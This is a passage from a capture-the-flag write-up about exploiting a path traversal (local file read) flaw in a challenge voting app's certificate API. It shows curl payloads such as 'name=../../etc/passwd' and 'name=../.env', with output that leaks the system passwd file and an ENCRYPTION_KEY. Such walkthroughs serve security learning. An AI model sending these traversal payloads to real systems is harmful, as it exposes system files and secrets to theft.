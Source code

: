 
Nice, there is the certifier for 'wbc', let's note it down: `Ak4gHIGV`.

- [x] `wbc`'s certifier
- [ ] The `ENCRYPTION_KEY` value
- [ ] `wbc`'s encrypted `voted_for` value (containing our flag!)

Now, let's try the LFR vulnerability, as we are in `./exports/` and the container is located within `/app`. Let's try 2 traversals:
```bash
$ curl -X POST -d 'name=../../etc/passwd' 'http://3.105.27.130:8000/api/v2/certificate'                                                                                                                        130 ↵
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Looking good! Now could we get the `ENCRYPTION_KEY` with `/proc`?

```bash
$ curl -X POST -d 'name=../../proc/self/environ' 'http://3.105.27.130:8000/api/v2/certificate'

```

Nope, blank...

When the container is initialised within the `Dockerfile`, the following line is of interest:
```docker
RUN echo "ENCRYPTION_KEY=REDACTEDREDACTEDREDACTED" > /app/.env
```

So, could we access `/app/.env`?

```bash
$ curl -X POST -d 'name=../.env' 'http://3.105.27.130:8000/api/v2/certificate'
ENCRYPTION_KEY=0cccaf41450b4c0ca95f1a9c
```

Yes we can! That's 2 of 3 requirements.

- [x] `wbc`'s certifier
- [x] The `ENCRYPTION_KEY` value
- [ ] `wbc`'s encrypted `voted_for` value (containing our flag!)
